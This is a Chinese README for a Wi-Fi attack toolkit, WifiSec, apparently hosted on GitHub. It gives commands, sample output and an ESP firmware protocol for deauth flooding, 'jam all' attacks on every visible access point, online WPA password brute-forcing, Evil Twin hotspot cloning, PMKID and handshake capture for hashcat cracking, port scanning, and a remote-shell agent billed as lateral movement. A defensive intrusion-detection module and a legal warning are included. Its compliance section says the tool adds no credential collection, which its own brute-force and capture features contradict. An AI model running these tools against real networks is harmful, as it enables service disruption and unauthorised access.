



WifiSec
Go 编写的无线安全测试工具。帧注入跑在 ESP 协处理器上，宿主机零依赖、全平台免 root。
仅限自有或已获书面授权的网络使用。《中华人民共和国网络安全法》第二十七条禁止干扰他人网络正常功能；非法 deauth 干扰还可能触犯《刑法》第二百八十五条第三款、第二百八十六条。
开发实况#

wifisec serial 输出
wifisec list 输出
wifisec brute 逐次尝试带耗时，命中即停输出凭证块工作方式#
两条注入路径按构建与平台自动分发，应用编排不感知底层注入方式（Hexagonal Architecture：应用层只依赖 frameWriter / channelSetter 两个端口）。
| 路径 | 原理 | 平台 | 权限 |
|---|---|---|---|
| ESP 协处理器（默认） | 帧注入在板载 ESP8266/ESP32 射频上完成，宿主机经 USB 串口下发协议帧 | macOS / Linux / Windows / Termux | 免 root |
| Linux 原生 | iw 创建 monitor 接口 + AF_PACKET 原始套接字 | Linux / Termux | root 或 CAP_NET_RAW |
| Windows 原生 | Npcap 驱动注入 + WlanHelper 切 monitor | Windows | 管理员 + Npcap |
| macOS 原生 | 不可用——Apple 未开放 802.11 帧注入 API，返回精确技术说明 | macOS | — |
快速开始#
三种安装方式，任选其一：
| 方式 | 适用 | 命令 |
|---|---|---|
| go install（推荐） | 已有 Go 环境 | go install github.com/ctkqiang/wifisec/cmd/wifisec@latest |
| GitHub Release | 无 Go 环境 | 上方「下载」区直接拿对应平台产物 |
| 源码编译 | 想改代码 | git clone … && make build |
go install 安装到 $(go env GOPATH)/bin/（通常 ~/go/bin/）。若安装后提示 command not found，是该目录不在 PATH 中，追加并重载即可：
echo 'export PATH=$PATH:$HOME/go/bin' >> ~/.bashrc # Termux/bash；zsh 用户写 ~/.zshrc
source ~/.bashrcwifisec。- 1编译依赖 Go 1.26+，无 CGO：
make build # 产物 build/wifisec（macOS 额外产出 .app bundle 供定位授权） - 2烧录固件一块 ESP8266 开发板（NodeMCU / Wemos D1 mini）：见下方「固件烧录」。
- 3确认串口
wifisec serial # USB 设备置顶，记下端口名与 VID:PID - 4扫描与打击
wifisec list # 周边网络（主机射频视野） wifisec deauth 'MyWiFi' # 按 SSID，同名多 AP 全部命中 wifisec deauth 01:23:45:67:89:ab # 按 BSSID 精确锁定 wifisec brute 'MyWiFi' with-pass: pass.txt # 在线字典爆破，命中即停
list · 无线扫描#
枚举本机无线接口与周边网络。macOS 经 CoreWLAN + 定位服务取 BSSID（首次使用弹授权窗）；Linux 解析 iw；Windows 解析 netsh。
wifisec list输出含信道、频段、带宽、加密代际、信号/SNR 与信号条。同名 SSID 的 2.4/5GHz AP 分行展示，BSSID 各自独立。
完整字段判读见 wifi_list.md。
serial · 串口发现#
枚举系统全部串口（对标 Arduino IDE 端口列表），USB 设备置顶并给出 VID:PID——认芯片才是认板子的正确姿势：
| VID:PID | 芯片 | 常见载板 |
|---|---|---|
1A86:7523 | CH340/CH341 | NodeMCU、Wemos D1 mini 及多数国产板 |
1A86:55D4 | CH9102 | 较新的 ESP32-S3/C3 开发板 |
10C4:EA60 | CP2102 | 乐鑫官方 DevKit |
0403:6001 | FT232RL | FTDI 转接板 |
完整排错（充电线冒充数据线、brltty 抢占等）见 wifi_serial.md。
deauth · 帧注入#
对目标 AP 持续广播 802.11 deauthentication 帧，200ms 间隔（每秒 5 帧），Ctrl-C 停止并输出统计。协处理器路径下全过程日志：
22:40:33.342 [信息] 连接 /dev/cu.usbserial-XXXX，等待固件就绪…
22:40:34.161 [信息] 协处理器就绪（协议 v1 · 2.4GHz），扫描周边网络…
22:40:36.391 [信息] 扫描完成：周边 22 个网络，命中目标 1 个
22:40:36.391 [信息] 目标：<SSID>（<BSSID>）· 信道 4 · -53 dBm · deauth 帧 34 字节
22:40:36.392 [信息] 开始 deauth 攻击：… 间隔 200ms（每 3s 报一次进度，Ctrl-C 停止）
22:40:39.393 [信息] 进行中：已发送 15 帧 · 运行 3s
22:40:57.393 [信息] 进行中：已发送 105 帧 · 运行 21s
^C 22:40:58.114 [信息] 已发送 107 帧 · 目标 1 个 · 运行 21s完整说明（注入循环、信号对账、跨平台路径）见 wifi_deauth.md。
jam · 全频段干扰#
对目标 AP 同时发送 deauth + disassoc 双帧，覆盖只过滤 deauth 但不过滤 disassoc 的客户端实现；jam all 扫描全部可见 AP 逐个打击，200ms 间隔，Ctrl-C 停止并输出统计。
wifisec jam 'MyWiFi' # 按 SSID，双帧干扰
wifisec jam 01:23:45:67:89:ab # 按 BSSID 精确锁定
wifisec jam all # 全频段：所有可见 AP 逐个打击jam all 不按 SSID/BSSID 过滤，扫描到的所有 AP 全部命中。macOS 无公开帧注入 API，需使用 ESP 协处理器或切换 Linux/Windows。完整说明（双帧构造、全频段模式、跨平台路径）见 wifi_jam.md。
brute · 密码爆破#
在线密码字典爆破：把字典里的每个密码执行一次真实关联尝试，由 AP 亲自判定对错。插入 ESP 开发板时走协处理器（关联跑在板载射频上，不碰本机网络配置）；未检测到设备时自动回落本机网卡（macOS networksetup / Linux nmcli / Windows netsh）。
wifisec brute 'MyWiFi' with-pass: pass.txt # 按 SSID
wifisec brute 01:23:45:67:89:ab pass.txt /dev/cu.usbserial-XXXX # 按 BSSID，手动指定串口字典格式：每行一个密码，# 开头为注释，空行自动跳过。每次尝试带耗时逐条输出，命中即停并打印完整凭证块：
[信息] [1/4] 失败："123456"（14.3s）
[信息] [2/4] 失败："password"（15.4s）
════════════ 爆破成功 ════════════
SSID : MyWiFi
BSSID : aa:bb:cc:dd:ee:ff
密码 : correcthorse
尝试 : 3/4 · 总耗时 41s
═══════════════════════════════════macOS 本机路径采用两段式判定：networksetup 返回 0 仅代表 join 请求被受理，还需轮询确认接口真实接入目标 SSID，杜绝假命中。ESP 路径需先烧录含关联命令的固件（协议含 CMD_ASSOC 0x03）。完整说明（协议载荷、BSSID 来源分级、限速对抗、与离线破解的区别）见 wifi_brute_force.md。
clone · 热点克隆#
Evil Twin：在真实 AP 的信道上承载一个同名同密码的克隆热点，默认开启 kick——每 200ms 对真实 AP 广播 deauth，把其客户端驱赶到克隆网络；客户端接入/离开实时打印，Ctrl-C 结束并输出会话统计。插入 ESP 时克隆 AP 与 kick 帧都由板载射频承载（固件切 AP+STA 双模）；未检测到设备时回落本机路径——仅 Linux 可行（hostapd，需 root），且 kick 需要第二块无线网卡。
wifisec clone 'MyWiFi':'same-password' up # 同名同密码克隆 + kick 真实 AP
wifisec clone 'MyWiFi': up nokick # 开放网络克隆，不驱赶客户端
wifisec clone down # 停止固件上的克隆热点════════════ 克隆热点已上线 ════════════
SSID : MyWiFi
密码 : same-password
信道 : 6
克隆 BSSID: 1a:2b:3c:4d:5e:6f
真实 AP : aa:bb:cc:dd:ee:ff（信道 6）
kick : 已启用（每 200ms 广播 deauth 驱赶真实 AP 客户端）
监控 : 客户端接入/离开将实时打印，Ctrl-C 结束会话
═══════════════════════════════════════
[信息] 客户端接入 8c:85:90:xx:xx:xx（在线 1 台）启动时先扫描周边网络，同名 SSID 取 RSSI 最强者作为克隆参照（信道跟随它、kick 指向它）；扫不到同名网络时信道回落 6、kick 自动禁用。凭据约束：SSID 1-32 字节，WPA2 密码 8-63 字节，密码留空即开放网络。协议新增 CMD_CLONE 0x05（op+channel+ssid+password）与 CMD_CLONE_STATUS 0x06（在线设备列表轮询差分），旧固件回错误码 255 时需重烧固件。
完整说明（双路径执行顺序、hostapd 配置生成、kick 机制、企业级 WPA-EAP 边界、排错表）见 wifi_clone.md。
devices · 局域网设备发现#
盘点当前 Wi-Fi 里的在线设备：自动选出默认路由网卡（UDP connect 技巧），对网段内每个地址的 80/443/22/445 做 700ms 超时的 TCP 探针（128 并发）强制内核刷新 ARP 表，再读系统邻居表交叉得出 IP/MAC，补反向 DNS 与本机/网关角色。四平台免 root：Linux/Android 读 /proc/net/arp，macOS 解析 arp -an，Windows 解析 arp -a。
wifisec devices # 自动选择当前上网网卡
wifisec devices en0 # 显式指定网卡（全隧道 VPN 时需要）[信息] 接口 en0 · 本机 192.168.1.109 · 网段 192.168.1.109/24
[信息] 默认网关 192.168.1.1
[信息] 正在并发探测 253 个地址的 80,443,22,445 端口以刷新 ARP 表…
局域网在线设备（数据来源：系统 ARP 邻居表）
IP 地址 MAC 地址 主机名 角色
────────────────────────────────────────────────
192.168.1.1 B4:B0:24:xx:xx:xx - 网关
192.168.1.46 76:A2:36:xx:xx:xx - -
192.168.1.109 12:49:1B:xx:xx:xx M2.local 本机
[信息] 共 5 台设备 · 探测地址 253 个 · 耗时 5.68s/16 以上大网段自动退化为本机所在 /24；AP 隔离（客户端隔离）开启时任何二层工具都看不到邻居。完整原理与跨平台实现见 lan_analysis.md §2。
scan_ports · 端口扫描#
对标 nmap -sT 的 TCP connect 扫描：握手由内核完成，四平台免 root，同时给出精确三态——握上是 open、收到 RST 是 closed、超时/不可达是 filtered。200 并发、单端口 1.5s；open 端口再做被动 banner 抓取（HTTP 族端口补发 HEAD / HTTP/1.0）。
wifisec scan_ports 192.168.1.1 # 默认 47 个常用端口（top）
wifisec scan_ports 192.168.1.1 all # 1-1000
wifisec scan_ports 192.168.1.46 22,80,8000-8100 # 列表与区间混用端口扫描结果 · 192.168.1.1（192.168.1.1）
端口 状态 服务 Banner
────────────────────────────────────────────
22 open ssh SSH-2.0-dropbear_2011.54
53 open domain -
80 open http HTTP/1.0 200 OK
443 open https -
[信息] open 4 · filtered 0 · closed 1 · 共 5 端口 · 耗时 1.01sdevices 确认。三态判定、banner 机制与能力边界见 lan_analysis.md §3。
agent / shell · 横向移动#
后渗透横向扩展通道：被控端 wifisec agent 监听 TCP（默认 9485），控制端 wifisec <ip> bash 拿交互 shell，wifisec <ip> <命令> 单命令一步执行（IP 开头自动路由）。认证走 HMAC-SHA256 挑战应答——令牌不落网、抓包重放无效，空令牌自动生成随机令牌并打印。
wifisec agent --token lab2026 # 被控端：监听等待接入
wifisec 192.168.1.123 bash --token lab2026 # 控制端：交互 shell
wifisec 192.168.1.123 whoami --token lab2026 # 单命令一步执行协议时序、超时击杀（退出码 124）、令牌传递与排错见 lateral_movement.md。
get_packet · 抓包导出#
在连接态网卡上抓包导出 pcap，Wireshark/tcpdump 可直接打开。实时行按 Wireshark 列表风格限速 40 行/秒打印（超出只折叠屏幕行，帧数据一个不落全入文件），每 5 秒一行进度，Ctrl-C 或秒数到点后写统计正常收尾。参数按 token 形态归类、顺序随意：纯整数=秒数，带路径分隔符或 .pcap/.cap 后缀=文件，其余=网卡名。
wifisec get_packet en0 30 capture.pcap # en0 抓 30 秒落盘
wifisec get_packet 10 # 默认无线网卡抓 10 秒，文件名自动生成
wifisec get_packet # 默认网卡抓到 Ctrl-C
wifisec get_packet --eapol --bssid AA:BB:CC:DD:EE:FF 60 eapol.pcap # 抓包同时实时分析 EAPOL 握手，按 BSSID 过滤
wifisec get_packet --pmkid 'MyWiFi' 60 mixed.pcap # 抓包与 PMKID 主动会话共存（Linux/Windows）[信息] #154 192.168.1.66:51752 → 192.168.1.255:5700 UDP (211 B)
[信息] 抓包结束：154 帧 · 52.0 KB · 时长 3.06s
协议分布：TCP 148 · UDP 6
文件：out.pcap（54.5 KB）
Wireshark 打开方式：File → Open → 选择该文件| 平台 | 抓包数据源 | 特权 |
|---|---|---|
| Linux/Android | AF_PACKET 原始套接字 | root / CAP_NET_RAW |
| macOS | /dev/bpf*（BIOC 系列 ioctl） | sudo 或 access_bpf 组 |
| Windows | Npcap wpcap.dll | 安装 Npcap + 管理员终端 |
--eapol 后同一份流量实时做 EAPOL-Key 解析与 M1-M4 配对（命中即打摘要）；--pmkid 在 Linux/Windows 上另起主动会话，与抓包共存，产物一并落进 pcap 供 extract 离线提取。pcap 格式细节、BPF 配置顺序与排错见 lan_analysis.md §4-§6；握手/PMKID 分析见 wifi_pmkid.md。
pmkid · PMKID 主动获取#
传统抓握手链路（deauth 踢人 → 等客户端重连 → 抓四次握手）在无客户端在线、客户端不重连、或 AP 启用 802.11w（PMF 保护 deauth 帧）时全部卡死。PMKID 换了个思路：工具自己当客户端——切到目标信道，发 Open System Authentication + Association Request（随机 STA MAC，RSN IE 声明 PMKID 能力），AP 若在 Association Response / EAPOL Message 1 的 RSN IE 里返回 PMKID 列表，即拿到可离线爆破的材料。全程不踢任何人、不依赖真实客户端，SSID 与密码不变则 PMKID 长期有效。
wifisec pmkid AA:BB:CC:DD:EE:FF -o out.22000 # 按 BSSID 精确锁定（推荐）
wifisec pmkid 'MyWiFi' wlan0 -o out.22000 # 按 SSID，Linux 原生注入路径
wifisec pmkid 'MyWiFi' --ssid 'MyWiFi' --attempts 20 # 隐藏 SSID 必须显式给 --ssid；加大尝试次数[信息] 目标 MyWiFi · BSSID AA:BB:CC:DD:EE:FF · 信道 6 · RSSI -42 dBm
[信息] 第 1 次尝试 · STA MAC 9a:3e:b2:71:0c:55 → Auth(seq=1) … 收到 Auth(seq=2)
[信息] 发送 Association Request（RSN IE 声明 PMKID 能力）
[信息] Association Response: status=0 · RSN IE 携带 PMKID
[信息] PMKID 命中：0011…eeff（16 字节）
[完成] 已写出 out.22000（hashcat -m 22000，1 行）| 失败分类 | 含义 | 出路 |
|---|---|---|
no-beacon | 目标信道上等不到目标 AP 信标 | 确认信道/信号；用 BSSID 而非 SSID 定位 |
no-rsn-ie | 关联响应无 RSN IE（开放/WEP 网络） | 开放网络无需破解，直接连 |
rsn-no-pmkid | RSN IE 存在但 PMKID 列表为空 | AP 未启用 PMK 缓存披露，回落抓握手 |
non-psk | AKM 为 802.1X/Enterprise（00-0F-AC:01 等） | PMKID 派生路径不同，不可用于 PSK 爆破，明确拒绝 |
timeout | Auth/Assoc 应答超时 | 自动换 STA MAC 重试（默认退避） |
hidden-ssid | 信标 SSID 为空且未提供 --ssid | 显式传 --ssid |
帧流程、RSN IE 状态机偏移表、22000 字段格式与成功率调参见 wifi_pmkid.md。
extract · pcap 离线提取#
把 get_packet / pmkid 产出的 pcap 变成成品：逐 AP 统计完整握手数、PMKID 有无、各帧合法性（MIC 存在性、replay counter 单调性），择优导出 hashcat 可直接消费的行。同一 BSSID 同时有 PMKID 与完整握手时优先 PMKID（材料干净、无 MIC 区清零的妥协）；ESSID 未能从 beacon/probe/assoc 恢复的候选拒绝产出——空 salt 算不了 PBKDF2，宁可不出也不出废 hash。
wifisec extract capture.pcap # 只看摘要：握手数/PMKID/帧合法性
wifisec extract capture.pcap --hashcat out.22000 # 择优导出 22000，直接喂 hashcat -m 22000
wifisec extract capture.pcap --pmkid out.16800 # 仅导出 PMKID 行（16800 旧格式）
wifisec extract capture.pcap --bssid AA:BB:CC:DD:EE:FF --hashcat out.22000 # 只处理目标 AP
wifisec extract capture.pcap --json # 结构化输出，便于管道化pcap 摘要 · 154 帧 · 3 个 BSSID
BSSID ESSID 信道 PMKID 完整握手 帧明细
──────────────────────────────────────────────────────────
aa:bb:cc:dd:ee:ff MyWiFi 6 1 1 M1✓ M2✓ M3✓ M4✓
11:22:33:44:55:66 Neighbor 11 0 0 M1✓ M2✓
（发现 1 个可离线破解候选；已写出 out.22000 · 1 行）| 导出目标 | 格式 | 消费方 |
|---|---|---|
--hashcat out.22000 | WPA*01* PMKID 行 / WPA*02* 握手行（依据 hashcat v7.1.2 格式定义，代码内常量 + FormatVersion 开关） | hashcat -m 22000 |
--pmkid out.16800 | PMKID:MAC_AP:MAC_STA:ESSID_HEX（旧格式） | hashcat -m 16800（已弃用，兼容保留） |
--json | 候选组结构化 JSON（字段与摘要同名） | 管道 / 脚本 |
<hidden> 并拒绝产出 hash，不会拿空 salt 去算。握手行导出时 MIC 区按规范清零、messagepair 按实际配对类型标注（M1M2=0 / M2M3=2 / M3M4=5 / M1M4=1）。22000 字段顺序、messagepair 规则与 golden 测试说明见 wifi_pmkid.md。
ids · 无线入侵检测#
防御视角模块：持续监测空域，识别伪造 AP、KARMA、加密降级、泛洪、deauth 风暴、弱加密与开放网络。两层引擎——扫描差分（每 15 秒对比快照，免 root 全平台）+ 帧级监测（Linux monitor VIF / macOS BPF，尽力而为、不可用时如实降级）。告警按严重（红）/警告（黄）/提示（灰）着色，每条带触发证据。
wifisec ids # 全空域持续监测到 Ctrl-C
wifisec ids 3600 # 监测 1 小时后自动收尾
wifisec ids 'MyWiFi' # 锁定单个 SSID：只评估它的差分与针对它的风暴
wifisec ids en0 # 指定帧级监测绑定的网卡[严重] 14:32:01 伪造AP · MyWiFi — SSID 出现第二个 BSSID BB:00:…（信道 6 · WPA2），疑似 Evil Twin
[严重] 14:33:40 去认证风暴 · AA:00:… — 10 秒内 12 帧（阈值 12），目标为本机——你的连接正在被强制断开
[信息] 检测结束：追踪 12 个 BSSID · deauth 47 帧 · disassoc 0 帧 · 告警 2 条
[警告] 重点来源 AA:00:…：deauth×47 · disassoc×0| 检测器 | 层面 | 等级 | 阈值 |
|---|---|---|---|
| 伪造 AP（Evil Twin） | 扫描差分 | 警告 | 同 SSID 同频段新 BSSID 且信道/加密不一致（双频合一拓扑豁免） |
| KARMA | 扫描差分 | 严重 | 同一 BSSID 宣称 ≥6 个 SSID |
| 加密降级 | 扫描差分 | 严重 | 安全等级下跌（WPA3→WEP 等） |
| 去认证/解除关联风暴 | 帧级监测 | 严重 | ≥12 帧 / 10 秒 / 发送方 |
| 信标泛洪 | 两层 | 严重 | 单轮 30 个新 BSSID 或 10 秒 40 发送方 |
| 弱加密 / 开放网络 | 扫描差分 | 警告/提示 | WEP、WPA/TKIP、OPEN（每 BSSID 一次） |
检测器原理、阈值出处与企业部署形态见 wireless_ids.md。
heatmap · 信号热力图#
把无线数据变成平面图：纯终端 TUI 站点勘测。拿着笔记本在房间里走动，每到一个位置按一次空格，工具把该点的 RSSI 钉进网格；未采样的格子按 IDW（1/d² 反距离加权） 插值出色块，超半径的死角留白不编造。可叠加文本平面图（墙体/工位），最多同时追踪 9 个 AP（Tab 切换、各自独立网格），加密风险以角标形式随目标列出；结束自动落盘 JSON 并给出 AP 方位估计（信号最强格）。
wifisec heatmap # 对当前最强网络开测
wifisec heatmap 'MyWiFi' # 指定 SSID
wifisec heatmap 'MyWiFi' floor.txt # 叠加平面图（#=墙 空格=可走区域）| 按键 | 作用 | 按键 | 作用 |
|---|---|---|---|
h j k l / 方向键 | 移动光标（你站的位置） | 空格 / 回车 | 在当前格采样一次 RSSI |
Tab | 切换勘测目标 AP | x | 清除当前格采样 |
s | 立即保存 JSON | q / Ctrl-C | 结束并自动落盘 + 统计 |
| 等级 | RSSI | 色块 | 含义 |
|---|---|---|---|
| 极佳 | ≥ -50 dBm | 绿色 | 贴着 AP 的覆盖区 |
| 良好 | -50 ~ -60 | 黄绿 | 正常办公无压力 |
| 一般 | -60 ~ -70 | 金色 | 可用，视频会偶发卡顿 |
| 偏弱 | -70 ~ -80 | 橙色 | 边缘覆盖，考虑增补点位 |
| 死角 | < -80 / 无数据 | 红色 | 基本不可用 |
IDW 原理与诚实边界、JSON 落盘格式、AP 方位估计的局限见 wifi_heatmap.md。
help · 用法总览#
裸跑 wifisec（无子命令）或 wifisec help 均输出开发者信息与全部子命令用法。
固件烧录#
固件源码 core/esp/esp.ino，一份源码经编译期条件分支覆盖 ESP8266 / ESP32 全系。推荐 arduino-cli：
arduino-cli compile \
--fqbn esp8266:esp8266:nodemcuv2:baud=115200,xtal=80,eesz=4M2M \
--build-path /tmp/esp-build core/esp/esp.ino
arduino-cli upload --fqbn esp8266:esp8266:nodemcuv2 \
--input-dir /tmp/esp-build -p /dev/cu.usbserial-XXXX core/esp/esp.inoCrystal is 26MHz 为准。板型选型表、手动下载模式按键、--no-stub 兜底等完整排错见 wifi_deauth.md §5.4-§5.5。
串口协议#
主机 ↔ 固件帧格式（小端，双向各一个魔数防方向错乱）：
| 方向 | 帧头 | 帧格式 |
|---|---|---|
| 主机 → ESP | 0xA5 | [A5][cmd][len_lo][len_hi][payload] |
| ESP → 主机 | 0x5A | [5A][cmd][len_lo][len_hi][payload] |
命令与回复：
| cmd | 方向 | 含义 | payload |
|---|---|---|---|
0x00 | 主机→ESP | PING 握手 | 无 |
0x00 | ESP→主机 | PONG | 协议版本(1) + 能力位图(1)，bit0 = 5GHz |
0x01 | 主机→ESP | 扫描 | 无 |
0x01 | ESP→主机 | 扫描条目 | bssid(6) + channel(1) + rssi(1) + ssidLen(1) + ssid |
0x02 | ESP→主机 | 扫描结束 | 无 |
0x02 | 主机→ESP | 注入 | 信道(1) + 802.11 帧（已剥 radiotap） |
0x03 | 主机→ESP | 关联尝试 | ssidLen(1) + ssid + passLen(1) + password |
0x03 | ESP→主机 | 关联结果 | result(1)：0 = 失败/超时，1 = 成功 |
0x04 | ESP→主机 | 错误 | 出错命令(1) + 错误码(1) |
0x05 | 主机→ESP | 克隆开关 | op(1) + channel(1) + ssidLen(1) + ssid + passLen(1) + password |
0x05 | ESP→主机 | 克隆结果 | result(1) + apMAC(6)；down 回复 MAC 全零 |
0x06 | 主机→ESP | 克隆状态 | 无 |
0x06 | ESP→主机 | 在线设备 | count(1) + count×MAC(6) |
复位时序
打开串口先拉复位：DTR 置低（GPIO0 高）→ RTS 置高（EN 低）100ms → 释放。NodeMCU 自动复位电路把 DTR 接到 GPIO0，驱动默认电平会把芯片锁进 ROM 下载模式（115200 完全静默）。
噪声重同步
ESP 上电以 74880 输出启动日志，在 115200 下是随机字节。解析器逐字节丢弃直至帧头 0x5A，残缺帧保留待下一段拼齐。
设计取舍全表见 wifi_deauth.md §5.3。
排错手册#
高频错误速查（完整版见 wifi_deauth.md §5.5 与 wifi_serial.md §6）：
| 报错 | 原因 | 处理 |
|---|---|---|
| 未发现 USB 串口设备 | 充电线冒充数据线 / 驱动未装 | 换数据线；装 CH340/CP2102 驱动 |
| 端口正被 X (PID N) 占用 | Arduino 串口监视器等持有端口 | 关闭报错点名的进程 |
| 串口有数据但不是有效 PONG | 板型晶振选错（115200 偏成 74880）或固件未烧录 | 选对板型重烧；74880 下能看到 PONG 即确诊 |
| 串口完全无数据 | 供电不足 / 锁下载模式 / 端口选错 | 直连 USB；确认 LED 心跳 |
| 未找到目标；仅支持 2.4GHz | 目标是 5/6GHz BSSID | 换 2.4GHz BSSID 或 ESP32-C5 |
| 擦写阶段 Timed out waiting for packet content | stub 高速擦写丢包 | --no-stub ROM 直写（文档 §5.5 有完整命令） |
安全与合规#
能力边界（重构过程中刻意保持，不自动增加攻击面）：
- 仅 deauth 一种帧类型，帧构造收敛在
internal/ieee80211纯字节编解码层； - 不加入新的 packet type、credential collection、persistence 或 exploit 能力；
- 固件 payload 上限 512 字节，超长直接拒绝，防缓冲区溢出；
- 运行
list时不要加 sudo——root 在 GUI 会话之外弹不出定位授权窗。